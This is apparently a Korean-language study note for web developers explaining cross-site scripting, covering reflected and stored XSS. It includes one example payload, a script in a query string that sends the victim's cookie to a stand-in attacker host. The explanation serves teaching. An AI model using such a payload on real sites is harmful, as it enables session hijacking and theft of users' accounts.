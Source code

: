 # XSS와 CSRF

웹 개발을 할 때 보안관련 이슈에 대해 한번쯤은 들어봤을 것이다. 그 중에서 다뤄볼 것은 가장 많이 언급되기도 하는 `XSS`, `CSRF`에 대해 살펴보려고 한다.

<br>

## XSS (Cross Site Scripting) 공격

<br>

`XSS`가 무엇일까?

<br>

알아보기 전에 먼저 Cross Site Scripting인데 왜 약어는 XSS일까? 단지, 그 이유는 우리가 잘 알고 있는 `CSS (Cascading Style Sheets)`이미 사용중 이기 때문이다.

XSS는 웹을 공격하는 방법중 하나로써 흔히 사용하는 게시판, 이메일 에서 아주 나쁜 사람이 악성 스크립트 코드를 삽입해서 시스템을 구축한 개발자가 의도하지 않은 기능을 작동시키는 어찌보면 정말 단순하지만 치명적일 수 있는 공격이다.

XSS는 크게 3가지로 나눌 수 있는데 `Reflected XSS` `Stored XSS` `DOM Based XSS`이다. 이것들에 대해 알아보도록 하겠다.

<br>

### Reflected XSS

<br>

`반사 XSS 공격`이라고 한다. 악성 스크립트가 포함된 링크를 사용자가 클릭하도록 유도하는 것이 핵심인데 웹 어플리케이션에서 GET방식으로 조회할 때 사용되는 `Query String` (`weak.com?id=101`) 에 악성 스크립트를 포함시킨다. 그래서 사용자가 그 링크를 클릭하게 되면 그 링크의 URL에 따라서 서버로 요청하고 검색 결과를 응답받은 페이지내에서 악성 스크립트가 실행되도록 하는 공격이다. 보통 사용자의 `세션`, `쿠키`를 `탈취`하여 공격자가 사용자의 권한을 취득한다.

<br>

```
weak.com?id=<script>document.location="https://attacker.com?cookie="+document.cookie</script>
```

<br>

![image](https://user-images.githubusercontent.com/52060742/129577107-919746db-5839-42cd-8148-bbd273cce76f.png)

<br>

하지만 이 방법은 이제 브라우저에서 막을 수 있기 때문에 KISA(한국인터넷진흥원)에서도 더이상 취약점으로 받지 않고 있다고 한다.

<br>

### Stored XSS

<br>

`저장 XSS 공격`이라고 한다. 이름처럼 취약점을 가지고 있는 서버에 악성 스크립트를 저장해 놓는 방법이다. 보통 게시판, 댓글, 쪽지함 등에서 사용하는데 공격자가 악성 스크립트를 포함한 게시글을 작성하면 서버의 DB에 악성 스크립트가 저장된다.

사용자가 그 게시글에 들어감으로써 서버에 게시글을 조회하기 위해 GET 요청을 보내고 서버는 해당 요청에 대해 응답을 보내준다. 그 응답에 악성 스크립트가 포함되어있기 때문에 스크립트가 실행 된다.

